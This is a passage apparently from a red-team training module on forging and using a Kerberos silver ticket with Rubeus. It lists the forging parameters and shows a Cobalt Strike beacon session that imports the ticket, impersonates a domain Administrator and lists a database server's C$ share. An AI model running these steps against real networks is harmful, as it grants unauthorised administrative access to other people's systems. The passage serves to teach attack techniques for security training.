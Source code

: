 Where:

- `/service` is the target service.
    
- `/aes256` is the AES256 hash of the target computer account.
    
- `/user` is the username to impersonate.
    
- `/domain` is the FQDN of the computer's domain.
    
- `/sid` is the domain SID.

> You will notice that Rubeus uses a user RID of 500 and group RIDs of 520,512,513,519,518 by default.  You can change these with the `/id` and `/groups` parameters.

```powershell
beacon> make_token CONTOSO\Administrator FakePass
[+] Impersonated CONTOSO\Administrator (netonly)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFb[...snip...]kYi0x

[*] Action: Import Ticket
[+] Ticket successfully imported!

beacon> run klist

Current LogonId is 0:0x1782fca

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: cifs/lon-db-1 @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a00000 -> forwardable renewable pre_authent 
	Start Time: 3/4/2025 12:32:31 (local)
	End Time:   3/4/2025 22:32:31 (local)
	Renew Time: 3/11/2025 12:32:31 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

beacon> ls \\lon-db-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     03/03/2025 14:16:43   Config.Msi
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     03/03/2025 14:15:14   Program Files
          dir     03/03/2025 14:15:27   Program Files (x86)
          dir     03/03/2025 14:01:21   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     03/03/2025 13:38:45   System Volume Information
          dir     03/04/2025 09:57:42   Users
          dir     03/03/2025 13:37:44   Windows
 12kb     fil     03/04/2025 10:01:30   DumpStack.log.tmp
 1gb      fil     03/04/2025 10:01:30   pagefile.sys
 
beacon> rev2self
[*] Tasked beacon to revert token
```
